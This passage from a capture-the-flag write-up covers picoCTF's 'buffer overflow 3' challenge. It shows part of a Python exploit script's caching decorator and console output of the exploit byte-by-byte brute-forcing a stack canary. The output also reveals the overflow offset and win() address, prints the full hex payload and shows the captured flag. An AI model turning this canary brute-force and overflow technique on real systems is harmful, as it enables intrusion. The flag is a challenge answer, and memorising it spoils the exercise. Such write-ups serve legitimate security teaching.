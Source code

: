 ```python
        def wrapped(*args, **kwargs):   # define a wrapper that will finally call "fn" with all arguments            
            # if cache exists -> load it and return its content
            if os.path.exists(cachefile):
                    with open(cachefile, 'rb') as cachehandle:
                        print("using cached result from '%s'" % cachefile)
                        return pickle.load(cachehandle)

            # execute the function with all arguments passed
            res = fn(*args, **kwargs)

            # write to cache file
            with open(cachefile, 'wb') as cachehandle:
                print("saving result to cache '%s'" % cachefile)
                pickle.dump(res, cachehandle)

            return res

        return wrapped

    return decorator   # return this "customized" decorator that uses "cachefile"
```

This is needed since when running on the server, we don't have easy access to the core dump, and when running locally, we don't know the server canary. So we run once locally with a dummy canary, get the overflow offset, and save it for the server session.

The output:
```console
root@kali:/media/sf_CTFs/pico/buffer_overflow_3# python exploit.py --ssh_user=$pico_ssh_user
[+] Connecting to 2018shell3.picoctf.com on port 22: Done
[*] user@2018shell3.picoctf.com:
    Distro    Ubuntu 16.04
    OS:       linux
    Arch:     amd64
    Version:  4.4.0
    ASLR:     Enabled
[*] '/media/sf_CTFs/pico/buffer_overflow_3/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] Canary so far: I
[*] Canary so far: IH
[*] Canary so far: IHw
[*] Canary so far: IHwj
using cached result from 'offset.db'
[*] Overflow offset: 16
[*] Canary: IHwj
[*] Address of win(): 0x80486eb
[*] Payload: 61616161626161616361616164616161656161616661616167616161686161614948776a61616161626161616361616164616161eb860408
[+] Starting remote process '/problems/buffer-overflow-3_3_6bcc2aa22b2b7a4a7e3ca6b2e1194faf/vuln' on 2018shell3.picoctf.com: pid 2618362
[+] Receiving all data: Done (64B)
[*] Stopped remote process 'vuln' on 2018shell3.picoctf.com (pid 2618362)
Ok... Now Where's the Flag?
picoCTF{eT_tU_bRuT3_F0Rc3_58bc7747}

[*] Stopped process './vuln' (pid 5782)
```

The flag: picoCTF{eT_tU_bRuT3_F0Rc3_58bc7747}